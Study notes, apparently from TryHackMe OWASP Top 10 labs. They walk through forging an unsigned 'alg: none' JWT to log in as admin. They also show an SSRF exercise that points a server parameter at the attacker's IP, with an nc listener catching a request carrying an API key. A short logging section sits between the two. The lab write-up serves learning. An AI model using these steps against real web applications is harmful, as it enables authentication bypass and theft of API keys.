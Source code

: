 ###### CHALLENGE
- On logging into the application as guest, we get 
`Hello guest. Only the admin user is allowed to get the flag!`

- (The guest account password can simply be obtained by entering no password and username as guest)

- so now we need to login as admin, to do that we need to inspect the page, go to storage and find the JWT stored
`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNzAxMzY3MzIxfQ.LSGuKdK5wEYwqJPYXgmrk3Ml09nfcr8g2qLz-EaAFWY`

- we need to modify this JWT token so that it matched the admin JWT
- take the first part of the cookie, the header part and put it in [cyberchef](https://gchq.github.io/CyberChef/)
- convert it from base64, then edit the alg to none and then convert it back to base64
here is the final header - `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=`
- now do the same for the second part but change it to admin
here is the final payload - `eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzAxMzY3MzIxfQ==`
- now join the 2 parts with `.`, leave the signature blank, but don't forget the `.`
final JWT token - `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzAxMzY3MzIxfQ==.`
- now replace the JWT token stored with the above one and refresh the page to get the flag

**FLAG - `THM{Dont_take_cookies_from_strangers}`**

## SECURITY LOGGING AND MONITORING FAILURES
- every action performed by the user is logged
- info stored in logs include-
	- HTTP status codes
	- Time Stamps
	- Usernames
	- API endpoints/page locations
	- IP addresses

## SERVER SIDE REQUEST FORGERY (SSRF)
- attacker coerces a web application into sending requests on their behalf to arbitrary destinations while having control of the request itself. 
application working
1. Send request
`GET /sms?server=srv3.sms.thm&msg=hello`
2. Build query to
 `https://srv3.sms.thm/api/send?msg=hello`
 3. forward to sms provider using api key
  `GET /api/send?msg=hello
  `x-api-key:some_key`

- the attacker can easily modify the server parameter to direct to their machine
- the application directs the SMS request to the attacker's machine now
There is an exercise in THM on this
we need to change the server to our tuno-ip and reload the page
we need to listen on port 8087
```bash
nc -lvnp 8087
```
we need to then paste the changed url on the browser and we get the flag in the terminal
here is the changed URL
`https://10.10.27.153:8087/download?server=tuno-ip:8087&id=75482342`
